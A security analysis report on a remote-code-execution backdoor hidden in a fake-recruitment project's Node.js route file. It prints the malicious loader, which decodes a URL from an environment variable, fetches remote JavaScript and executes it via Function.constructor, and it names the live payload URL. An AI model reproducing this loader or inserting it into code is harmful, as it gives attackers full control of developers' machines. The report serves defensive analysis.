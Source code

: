 # Security Analysis Report

## Threat Summary

**Classification:** Remote Code Execution (RCE) Backdoor
**Severity:** CRITICAL
**Vector:** Social Engineering (Fake Recruitment)
**Date Discovered:** 2025-10-17

---

## Malicious Code Location

**File:** `backend/src/routes/governance.js`
**Lines:** 309-315

```javascript
//Get Cookie
exports.getCookie = asyncErrorHandler(async (req, res, next) => {
    const src = atob(process.env.DEV_API_KEY);
    const HttpOnly = (await axios.get(src)).data.cookie;
    const handler = new (Function.constructor)('require',HttpOnly);
    handler(require);
})();
```

---

## Attack Chain

### 1. Environment Variable Decoding
```javascript
const src = atob(process.env.DEV_API_KEY);
```
- Reads `DEV_API_KEY` from environment variables
- Base64 decodes it to reveal malicious URL
- **Decoded URL:** `https://www.jsonkeeper.com/b/VBFK7`

### 2. Remote Payload Fetch
```javascript
const HttpOnly = (await axios.get(src)).data.cookie;
```
- Makes HTTP GET request to external server
- Retrieves malicious JavaScript payload
- Response stored in `malicious-payload.json` (57KB obfuscated code)

### 3. Code Execution
```javascript
const handler = new (Function.constructor)('require',HttpOnly);
handler(require);
```
- Uses `Function.constructor` (eval equivalent) to execute fetched code
- Passes Node.js `require` function as parameter
- Gives attacker full access to Node.js APIs and system

---